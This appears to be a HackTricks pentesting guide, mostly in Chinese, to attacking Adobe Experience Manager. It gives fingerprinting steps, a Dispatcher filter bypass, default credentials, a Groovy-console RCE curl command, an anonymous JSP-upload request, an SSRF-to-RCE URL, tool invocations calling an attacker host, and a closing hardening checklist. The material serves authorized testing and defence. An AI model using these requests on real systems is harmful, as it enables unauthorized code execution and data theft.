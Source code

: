 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, part of the Adobe Experience Cloud) 是一个企业级内容管理系统，运行在 Apache Sling/Felix (OSGi) 和 Java 内容库 (JCR) 之上。
> 从攻击者的角度来看，AEM 实例经常暴露危险的开发端点、弱 Dispatcher 规则、默认凭据以及每季度修补的众多 CVE。

下面的检查清单专注于 **外部可达（无认证）攻击面**，在真实的渗透测试中不断出现（2022-2025）。

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
其他快速指标：
* `/etc.clientlibs/` 静态路径存在（返回 JS/CSS）。
* `/libs/granite/core/content/login.html` 登录页面带有“Adobe Experience Manager”横幅。
* `</script><!--/* CQ */-->` HTML 底部的注释。

---

## 2. 高价值未认证端点

路径 | 获取内容 | 备注
---- | ------------- | -----
`/.json`, `/.1.json` | 通过 **DefaultGetServlet** 获取 JCR 节点 | 通常被阻止，但 *Dispatcher bypass*（见下文）有效。
`/bin/querybuilder.json?path=/` | QueryBuilder API | 页面树、内部路径、用户名泄露。
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix 控制台 | 默认403；如果暴露且找到凭据 ⇒ bundle-upload RCE。
`/crx/packmgr/index.jsp` | 包管理器 | 允许认证的内容包 → JSP 负载上传。
`/etc/groovyconsole/**` | AEM Groovy 控制台 | 如果暴露 → 任意 Groovy / Java 执行。
`/libs/cq/AuditlogSearchServlet.json` | 审计日志 | 信息泄露。
`/libs/cq/ui/content/dumplibs.html` | ClientLibs 转储 | XSS 向量。

### Dispatcher bypass 技巧
大多数生产网站位于 *Dispatcher*（反向代理）后面。其过滤规则可以通过在分号或编码换行符后附加允许的静态扩展来绕过：
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
单个请求如上常常会泄露用户个人资料节点及电子邮件地址。P-T Partners 发布了关于此弱点的良好指导。 【】

---

## 3. 常见的错误配置（在2025年仍然存在）

1. **匿名POST servlet** – `POST /.json` 与 `:operation=import` 允许您植入新的JCR节点。 在Dispatcher中阻止 `*.json` POST可以修复此问题。 【】
2. **全世界可读的用户资料** – 默认ACL在 `/home/users/**/profile/*` 上授予每个人 `jcr:read` 权限。
3. **默认凭据** – `admin:admin`，`author:author`，`replication:replication`。
4. **WCMDebugFilter** 启用 ⇒ 通过 `?debug=layout` 反射型XSS（CVE-2016-7882，仍在遗留的6.4安装中发现）。
5. **Groovy控制台暴露** – 通过发送Groovy脚本进行远程代码执行：
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. 最近的漏洞（服务包节奏）

季度 | CVE | 受影响版本 | 影响
------- | --- | -------- | ------
2024年12月 | **CVE-2024-43711** | 6.5.21及更早版本 | 不当输入验证 → **任意代码执行**（需要低权限认证）。 【】
2024年12月 | CVE-2024-43724/26 | 6.5.21及更早版本 | 移动页面向导中的DOM / 存储型XSS。 【】
2023年12月 | CVE-2023-48452/68 | ≤ 6.5.18 | 通过精心制作的URL进行基于DOM的XSS。 【】
2022年12月 | CVE-2022-30683 | ≤ 6.5.13 | 加密设计缺陷 → 秘密解密（需要低权限凭据）。 【】

始终检查与客户的服务包匹配的*APSB*公告，并请求最新的 **6.5.22** 或 *Cloud Service 2024.11*。

---

## 5. 利用片段

### 5.1 通过dispatcher绕过 + JSP上传的RCE
如果允许匿名写入：
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
现在请求 `/content/evil.jsp` – JSP 以 AEM 进程用户身份运行。

### 5.2 SSRF 到 RCE（历史 < 6.3）
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
来自 **aem-hacker** 的 `aem_ssrf2rce.py` 自动化整个链条。 【】

---

## 6. 工具

* **aem-hacker** – 瑞士军刀式枚举脚本，支持调度器绕过、SSRF 检测、默认凭据检查等。
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **内容暴力破解** – 递归请求 `/_jcr_content.(json|html)` 以发现隐藏组件。
* **osgi-infect** – 如果凭据可用，通过 `/system/console/bundles` 上传恶意 OSGi 包。

---

## 7. 加固检查清单（用于报告的建议）

1. 保持实例在 **最新的累积服务包** 上（截至 2025 年 7 月：6.5.22）。
2. 移除/轮换默认账户；强制实施 SSO/SAML。
3. 收紧 **调度器过滤器** – 拒绝 `;`、编码换行符，以及匿名用户的 `*.json` 或 `*.querybuilder.json`。
4. 禁用或保护控制台（`/system/console`、`/crx/*`、`/etc/groovyconsole`），使用 IP 允许列表。
5. 应用 Adobe 提供的 *匿名权限加固* 包。

## 参考

* Adobe 安全公告 APSB24-69 – “Adobe Experience Manager 的安全更新（2024 年 12 月）”。
* 0ang3el – aem-hacker 工具（GitHub）。
{{#include ../../banners/hacktricks-training.md}}
